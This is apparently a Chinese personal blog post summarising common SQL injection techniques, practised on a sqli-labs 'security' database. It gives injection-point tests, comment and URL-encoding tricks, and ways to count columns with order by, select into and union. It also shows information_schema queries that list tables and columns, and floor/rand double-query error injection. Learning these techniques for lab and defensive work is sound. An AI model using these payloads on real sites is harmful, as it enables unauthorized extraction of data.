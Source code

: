 ```yaml
---
title: 常用SQL注入方法总结
toc: true
recommend: 1
uniqueId: '2021-05-03 08:39:13/sql-injection.html'
mathJax: false
date: 2021-05-03 16:39:13
thumbnail:
tags: [数据库]
categories: [个人技术心得,渗透]
keywords:
---
```

> 网上资料过于繁杂，所以想写一篇文章记录我的收获

<!-- more -->

## 判断是否存在注入点

一般来说都是输入sql语句，报错就很有可能存在注入点


## 字符型注入和数字注入

这两个的区别就是一个需要引号，一个不需要

字符型：`?id=2'　其他语句#`

数字型：`?id=2　其他语句`

**如何判断？**

数字型的其他语句替换为 `and 1=2` 会报错，否则就是字符型

## url编码问题

网址都是采用`url`编码，一般浏览器网址栏的字符都会被自动转码，但需要注意几点

- **末尾的空格不会被转码**
- **#不会被转码**（**#**url编码后是**%23**）

## 注释问题

在字符型注入中，需要闭合引号构造sql语句，可以使用两个符号

1. `#`：在#后面的语句都会被注释掉
2. `--`：使用时需要注意，后面一定要接一个空格，在使用中都是 `--+`，+是空格的url编码

## 其他问题

表的字段类型如果是数字类型也可以用 `'数字'`来表示，但如果是数字＋字母的组合，只会取开头为数字的部分

```sql
＃比如下面的写法查询结果一样
where id='123abc'
where id='123'
where id=123
```

## 技巧

找到注入点以后，如果该注入点会返回查询的的数据，就可以着手获取数据库的基本信息了

如果没有返回数据，考虑双层（双查询）注入和盲注

### 判断查询字段数

- **order by**：表示根据第几字段排序，超出会报错

```sql
MariaDB sqlilabs@(none):security> select *  from users where id=1 order by 4
(1054, "Unknown column '4' in 'order clause'")
```

- **select into**：原意是备份表，可备份全部字段或者部分字段，into 后面跟新表。表可以用变量@来表示，几个变量代表几个字段，运行报错就代表不是该字段数，字段数正确不会报错，但是前端得不到数据，会报500错误。（除了＠，也可以用null）

  **该方法可用在limit后面**

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/into-injection.png)

- **union**：union字段数，类型不兼容，则会报错，利用这个原理猜字段数，不报错就说明猜对了

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/union-injection.png)

> 请注意这是查询的字段数，不一定等于表的字段数，后端逻辑可能是查询全部字段然后进行筛选

### 获取数据库的表

```sql
MariaDB root@(none):(none)> select table_name from information_schema.tables where table_schema='security'
+------------+ 
| table_name |
+------------+
| users      |
| emails     |
| uagents    |
| referers   |
+------------+
4 rows in set
Time: 0.005s
```

### 获取表的字段

```sql
MariaDB root@(none):(none)> 
select column_name 
from information_schema.columns 
where table_schema = 'security' and table_name='users'
+-------------+
| column_name |
+-------------+
| id          |
| username    |
| password    |
+-------------+
3 rows in set
Time: 0.009s
```

### 绕过输出一行的逻辑

前端的逻辑可能获取到第一行数据后就后面的数据（我想要获取的数据）丢掉，可以让他第一行查不出来，这样就会显示我想显示的数据

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/sql-injection2.png)

## 双查询注入

当后端sql运行正确时不会返回数据，而错误才会返回信息，这时就可以利用错误的信息将数据库的信息暴露出来

双查询注入利用的是 `group by` 子句的原理，**配合count**（重复插入时报错），floor和rand(产生两个随机值相撞的概率大)使其报错．

### 获取数据库名

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/double-sql-injection.png)

> **参考文章**
>
> [【技术分享】MySQL 注入攻击与防御](https://www.anquanke.com/post/id/85936)
>
> [Web安全学习笔记](https://websec.readthedocs.io/zh/latest/index.html)
>
> [sql注入--双查询报错注入原理探索](https://www.cnblogs.com/laoxiajiadeyun/p/10283251.html)